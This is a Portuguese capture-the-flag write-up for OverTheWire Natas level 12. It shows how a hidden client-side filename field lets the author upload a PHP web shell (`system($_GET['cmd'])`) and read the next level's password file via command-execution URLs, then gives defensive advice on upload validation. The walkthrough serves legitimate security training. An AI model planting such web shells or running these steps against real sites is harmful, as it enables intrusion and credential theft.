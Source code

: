 # 🕵️ Natas - Nível 12 (🇧🇷 Português)  
*Data: 03/06/2025*    
*Dificuldade: Médio*   
*Categoria: Web* 

---

## 🎯 Objetivo

O objetivo deste desafio é identificar e explorar uma vulnerabilidade de upload de arquivos que permite a manipulação de nomes de arquivos no lado do cliente, resultando em Execução Remota de Código (RCE) para obter a senha do próximo nível (Natas13).  

---

## 🔎 Análise

- A aplicação web em `http://natas12.natas.labs.overthewire.org/` oferece uma funcionalidade de upload de imagens JPEG com um limite de tamanho de 1KB.  
- Tentativas de bypass de extensão comuns (ex: `.php.jpg`, `test.php%00.jpg` - null byte) não funcionaram, pois o servidor sempre anexa `.jpg` ao nome final, invalidando a execução como PHP.  
- A análise do código fonte da página HTML revelou um campo oculto no formulário de upload: `<input type="hidden" name="filename" value="<?php print genRandomString(); ?>.jpg" />`.  
- Este campo oculto pré-define o nome do arquivo que será salvo no servidor, incluindo a extensão `.jpg`, antes mesmo de o usuário selecionar o arquivo para upload.  
- A vulnerabilidade reside no fato de que o nome final do arquivo é controlado por um valor pré-populado no lado do cliente (via campo `hidden`), que pode ser interceptado e manipulado.
- Nosso objetivo é alterar a extensão de `.jpg` para `.php` no campo `filename` da requisição HTTP para que o servidor salve nosso arquivo com a extensão correta.
- O payload a ser enviado será um simples shell PHP: `<?php system($_GET['cmd']); ?>`, permitindo a execução de comandos via parâmetro `cmd` na URL. 

---

## 🧱 Etapas

1. Acessar a Aplicação: Navegar até `http://natas12.natas.labs.overthewire.org/`.  
2. Testar o Upload: Tentar fazer upload de um arquivo para observar o comportamento do servidor (renomeando para `.jpg`).  
3. Analisar o Código Fonte: Inspecionar o código HTML da página de upload para identificar o campo `input type="hidden" name="filename"`.  
4. Preparar o Payload: Criar um arquivo PHP (ex: `bypass.php`) com o conteúdo `<?php system($_GET['cmd']); ?>`.  
5. Interceptar a Requisição: Utilizando a ferramenta proxy `Burp Suite` para capturar a requisição de upload do arquivo.  
6. Manipular o Nome do Arquivo: Na requisição interceptada, localizar o parâmetro `filenamee` alterar sua extensão para `.php `(ex: c36r0bea02.jpg para c36r0bea02.php).  
7. Enviar a Requisição: Enviar a requisição modificada para o servidor.
8. Verificar Upload: O servidor retornará uma mensagem confirmando o upload do arquivo com a extensão .php (ex: The file `upload/dnfplwi4tz.php` has been uploaded).
9. Acessar o Shell Web: Navegar até a URL do arquivo PHP recém-enviado (ex: `http://natas12.natas.labs.overthewire.org/upload/dnfplwi4tz.php`). Observar as mensagens de erro ("Notice: Undefined index: cmd", "Warning: system(): Cannot execute a blank command"), que confirmam que o PHP está interpretando o arquivo.
10. Executar Comandos: Testar a execução de comandos adicionando o parâmetro cmd na URL (ex: `http://natas12.natas.labs.overthewire.org/upload/dnfplwi4tz.php?cmd=pwd`). Confirmar o RCE.
11. Obter a Senha: Executar o comando para ler o arquivo de senha do Natas13: `http://natas12.natas.labs.overthewire.org/upload/dnfplwi4tz.php?cmd=cat%20/etc/natas_webpass/natas13`.  

---

## 🔑 Senha Encontrada

```
trbs5pCjCrkuSknBBKHhaBxq6Wm1j3LC
```

---

## ✅ Conclusão

A vulnerabilidade foi explorada com sucesso ao manipular o campo filename de um input hidden no formulário de upload, que era preenchido no lado do cliente. Isso permitiu o bypass da validação de extensão do servidor e o upload de um shell PHP. A execução remota de código foi confirmada e a senha para o próximo nível foi obtida. Este caso destaca o perigo de confiar em qualquer tipo de controle de entrada do lado do cliente para a segurança da aplicação, especialmente em funcionalidades de upload.

---

## 🧪 Comandos Utilizados

Acesso ao shell web (após upload e manipulação do nome):  
`http://natas12.natas.labs.overthewire.org/upload/[nome_aleatorio].php`  
Verificar RCE:   
`http://natas12.natas.labs.overthewire.org/upload/[nome_aleatorio].php?cmd=pwd`  
Obter senha do Natas13:   
`http://natas12.natas.labs.overthewire.org/upload/[nome_aleatorio].php?cmd=cat%20/etc/natas_webpass/natas13`  

---

## 🧠 Observações

- Validação Server-Side é Crucial: Nunca confie em validações feitas apenas no lado do cliente (JavaScript, campos HTML ocultos). Sempre revalide todas as entradas no lado do servidor.  
- Whitelist para Extensões e Tipos MIME: Em vez de blacklists, use whitelists (listas de permissão) para extensões de arquivos e tipos MIME permitidos para upload.  
- Renomeação Segura de Arquivos: Ao renomear arquivos, use um nome gerado aleatoriamente e uma extensão validada no servidor, sem permitir qualquer entrada do usuário no nome ou extensão final.  
- Isolamento de Uploads: Arquivos enviados por usuários devem ser armazenados em um diretório fora da raiz web ou configurado para não permitir execução de scripts.  


---

## 📎 Scripts desenvolvidos

[bypass.php](https://github.com/ItacarambiSec/Projects/blob/main/Ctf-scripts/Overthewire_natas/bypass.md): Um shell PHP simples (`<?php system($_GET['cmd']); ?>`) utilizado para a execução remota de comandos.

---

<p align="center"> <a href="../Natas11/Readme-BR.md">⬅️ Anterior</a> • <a href="../Natas13/Readme-BR.md">Proximo ➡️</a> </p>
